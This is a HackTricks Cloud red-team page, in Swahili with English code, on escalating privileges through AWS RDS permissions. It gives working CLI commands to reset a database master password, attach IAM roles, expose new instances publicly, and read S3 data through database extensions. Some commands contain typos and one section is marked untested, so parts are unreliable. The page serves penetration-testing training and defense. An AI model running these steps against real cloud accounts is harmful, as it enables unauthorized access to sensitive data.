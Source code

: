 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Huduma ya Hifadhidata ya Uhusiano

Kwa maelezo zaidi kuhusu RDS angalia:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Kwa ruhusa hiyo mshambuliaji anaweza **kubadilisha nenosiri la mtumiaji mkuu**, na kuingia ndani ya hifadhidata:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Utahitaji kuwa na uwezo wa **kuwasiliana na hifadhidata** (zinapatikana kwa kawaida tu kutoka ndani ya mitandao).
{% endhint %}

**Athari Zinazoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### rds-db:connect

Kulingana na [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) mtumiaji mwenye ruhusa hii anaweza kuungana na mfano wa DB.

### Kunyanyasa Ruhusa za RDS Role IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Ikiwa unakimbia **`SELECT datname FROM pg_database;`** unapata hifadhidata inayoitwa **`rdsadmin`** unajua uko ndani ya **hifadhidata ya AWS postgresql**.
{% endhint %}

Kwanza unaweza kuangalia ikiwa hifadhidata hii imetumika kufikia huduma nyingine yoyote ya AWS. Unaweza kuangalia hii kwa kutazama nyongeza zilizowekwa:
```sql
SELECT * FROM pg_extension;
```
Ikiwa unapata kitu kama **`aws_s3`** unaweza kudhani kuwa hifadhidata hii ina **aina fulani ya ufikiaji juu ya S3** (kuna nyongeza nyingine kama **`aws_ml`** na **`aws_lambda`**).

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuona huko ikiwa **klasta ina IAM Role yoyote iliyoambatanishwa** katika uwanja **`AssociatedRoles`**. Ikiwa ipo, unaweza kudhani kuwa hifadhidata ilikuwa **imeandaliwa kufikia huduma nyingine za AWS**. Kulingana na **jina la jukumu** (au ikiwa unaweza kupata **ruhusa** za jukumu) unaweza **kukisia** ni ufikiaji gani wa ziada hifadhidata ina.

Sasa, ili **kusoma faili ndani ya bakuli** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ikiwa ungekuwa na **raw AWS credentials** unaweza pia kuzitumia kufikia data ya S3 kwa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **haitaji kubadilisha chochote katika parameter group variable** ili kuweza kufikia S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Ndani ya mysql, ukikimbia query **`SELECT User, Host FROM mysql.user;`** na kuna mtumiaji anayeitwa **`rdsadmin`**, unaweza kudhani uko ndani ya **AWS RDS mysql db**.
{% endhint %}

Ndani ya mysql kimbia **`show variables;`** na ikiwa variables kama **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, zina thamani, unaweza kudhani database imeandaliwa kufikia data za S3.

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuangalia ikiwa cluster ina **associated role** yoyote, ambayo kwa kawaida inamaanisha ufikiaji wa huduma za AWS).

Sasa, ili **kusoma faili ndani ya bucket** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Mshambuliaji mwenye ruhusa `rds:AddRoleToDBCluster` na `iam:PassRole` anaweza **kuongeza jukumu lililotajwa kwenye mfano wa RDS uliopo**. Hii inaweza kumwezesha mshambuliaji **kupata data nyeti** au kubadilisha data ndani ya mfano huo.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.\
Kumbuka kwamba baadhi ya DB zinahitaji mipangilio ya ziada kama Mysql, ambayo inahitaji kubainisha ARN ya jukumu katika vikundi vya aprameter pia.

### `rds:CreateDBInstance`

Kwa ruhusa hii tu mshambuliaji anaweza kuunda **instance mpya ndani ya klasta** ambayo tayari ipo na ina **IAM role** iliyounganishwa. Hataweza kubadilisha nenosiri la mtumiaji mkuu, lakini anaweza kuwa na uwezo wa kufichua instance mpya ya database kwa mtandao:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Mshambuliaji mwenye ruhusa `rds:CreateDBInstance` na `iam:PassRole` anaweza **kuunda mfano mpya wa RDS ukiwa na jukumu lililounganishwa**. Mshambuliaji anaweza kisha **kufikia data nyeti** au kubadilisha data ndani ya mfano huo.

{% hint style="warning" %}
Mahitaji mengine ya jukumu/profili ya mfano kuunganishwa (kutoka [**hapa**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profaili lazima iwepo katika akaunti yako.
* Profaili lazima iwe na jukumu la IAM ambalo Amazon EC2 ina ruhusa ya kulichukua.
* Jina la profaili ya mfano na jina la jukumu la IAM lililounganishwa lazima ianze na kiambishi `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Mshambuliaji mwenye ruhusa `rds:AddRoleToDBInstance` na `iam:PassRole` anaweza **kuongeza jukumu lililotajwa kwenye RDS instance iliyopo**. Hii inaweza kumwezesha mshambuliaji **kufikia data nyeti** au kubadilisha data ndani ya instance hiyo.

{% hint style="warning" %}
DB instance lazima iwe nje ya kundi kwa hili
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
